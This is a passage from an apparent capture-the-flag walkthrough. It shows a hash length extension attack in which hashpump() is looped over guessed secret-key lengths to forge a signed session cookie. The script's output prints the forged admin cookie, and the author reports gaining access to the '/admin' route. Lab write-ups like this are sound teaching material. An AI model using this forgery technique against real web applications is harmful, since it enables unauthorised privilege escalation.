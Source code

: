 ```
for group in data.split(b';'):
        try:
            if not group:
                continue
            key, val = group.split(b'=')
            info[key.decode()] = val
        except Exception:
            continue
    return info
```

To use the python hashpump() function we need the data, signature and the new data to append and also the key length. The key lenght is a random number:

```
SECRET = os.urandom(randrange(8, 15))
```

THe key length is between   8<=key_lenght<15. I have to use a loop in the range(0,15) like :

```
for key_len in range(8,15):
  new_sign,msg= hashpump(prev_sign.hex(),prev_msg.decode(),Admin_data,key_len)
```

The final [scirpt](https://github.com/roughiz/Intense-walktrough/blob/main/code/add_payload_to_cookie.py)

#### Exploit 

```
$ python3  add_payload_to_cookie.py
Exploit success
The cookie : auth=dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAxg7dXNlcm5hbWU9YWRtaW47c2VjcmV0PWYxZmMxMjAxMGMwOTQwMTZkZWY3OTFlMTQzNWRkZmRjYWVjY2Y4MjUwZTM2NjMwYzBiYzkzMjg1YzI5NzExMDU7./3cvmSDtTybVhXH/6ctAxm+epKdJZ5Eom+ZAVBuiTN4=

The key lenght was :12

```

### Admin access

I put this cookie parameter into the browser and now i'm admin and i have access to the route "/admin"
